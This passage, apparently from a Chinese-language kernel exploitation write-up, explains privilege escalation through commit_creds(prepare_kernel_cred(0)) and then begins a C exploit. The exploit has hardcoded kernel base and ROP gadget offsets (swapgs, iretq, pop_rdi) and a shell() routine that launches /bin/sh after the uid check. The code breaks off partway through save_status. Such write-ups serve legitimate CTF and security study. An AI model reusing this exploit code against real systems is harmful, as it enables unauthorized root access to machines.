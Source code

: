 那么同样的，在内核空间执行 commit_creads(prepare_kernel_cred(0)) 后，段错误转为 shell 函数来拿到 root权限，这里在getshell之后可以看到是新打开的终端获得了 root 权限，也就是 singel 处理函数跑在了 root

![image-20221012143646688](kernel%E4%BF%9D%E6%8A%A4%E7%BB%95%E8%BF%87/image-20221012143646688.png)

##### exp

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

void get_shell();

size_t vmlinux_base = 0xffffffff81000000;
size_t user_cs, user_ss, user_rflags, user_sp;

size_t commit_creds = 0x4c6410;
size_t prepare_kernel_cred = 0x4c67f0;
size_t pop_rdi_ret = 0x6370;
size_t pop_rdx_ret = 0x7616;
size_t pop_rcx_ret = 0x5f4bbc;
size_t pop_rbp_ret = 0x424;
size_t mov_rdi_rax_jne_pop2_ret = 0x66fea3;
size_t cmp_rdx_jne_pop2_ret = 0x964cc4;
size_t swapgs_pop_rbp_ret = 0xa55f;
size_t iretq_ret = 0xc0d9;


void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
```